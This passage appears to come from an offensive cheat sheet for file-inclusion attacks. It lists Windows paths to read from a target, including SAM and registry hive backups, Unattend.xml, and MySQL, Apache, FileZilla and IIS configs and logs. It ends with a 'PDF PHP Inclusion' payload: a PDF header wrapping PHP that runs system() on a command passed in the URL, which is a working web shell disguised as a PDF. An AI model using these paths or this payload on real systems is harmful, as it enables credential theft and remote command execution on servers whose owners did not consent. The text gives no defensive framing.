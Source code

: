 ```c
C:/Program Files/MySQL/my.cnf
C:/Program Files/MySQL/MySQL Server 5.0/data/hostname.err
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql-bin.log
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.err
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.log
C:/Program Files/MySQL/MySQL Server 5.0/my.cnf
C:/Program Files/MySQL/MySQL Server 5.0/my.ini
C:/Program Files (x86)/Apache Group/Apache2/conf/httpd.conf
C:/Program Files (x86)/Apache Group/Apache/conf/httpd.conf
C:/Program Files (x86)/Apache Group/Apache/conf/access.log
C:/Program Files (x86)/Apache Group/Apache/conf/error.log
C:/Program Files (x86)/FileZilla Server/FileZilla Server.xml
C:/Program Files (x86)/xampp/apache/conf/httpd.conf
C:/WINDOWS/php.ini
C:/WINDOWS/Repair/SAM
C:/Windows/repair/system
C:/Windows/repair/software
C:/Windows/repair/security
C:/WINDOWS/System32/drivers/etc/hosts
C:/Windows/win.ini
C:/WINNT/php.ini
C:/WINNT/win.ini
C:/xampp/apache/bin/php.ini
C:/xampp/apache/logs/access.log
C:/xampp/apache/logs/error.log
C:/Windows/Panther/Unattend/Unattended.xml
C:/Windows/Panther/Unattended.xml
C:/Windows/debug/NetSetup.log
C:/Windows/system32/config/AppEvent.Evt
C:/Windows/system32/config/SecEvent.Evt
C:/Windows/system32/config/default.sav
C:/Windows/system32/config/security.sav
C:/Windows/system32/config/software.sav
C:/Windows/system32/config/system.sav
C:/Windows/system32/config/regback/default
C:/Windows/system32/config/regback/sam
C:/Windows/system32/config/regback/security
C:/Windows/system32/config/regback/system
C:/Windows/system32/config/regback/software
C:/Program Files/MySQL/MySQL Server 5.1/my.ini
C:/Windows/System32/inetsrv/config/schema/ASPNET_schema.xml
C:/Windows/System32/inetsrv/config/applicationHost.config
C:/inetpub/logs/LogFiles/W3SVC1/u_ex[YYMMDD].log
```

#### PDF PHP Inclusion

Create a file with a PDF header, which contains PHP code.

```c
%PDF-1.4

<?php
    system($_GET["cmd"]);
?>
```
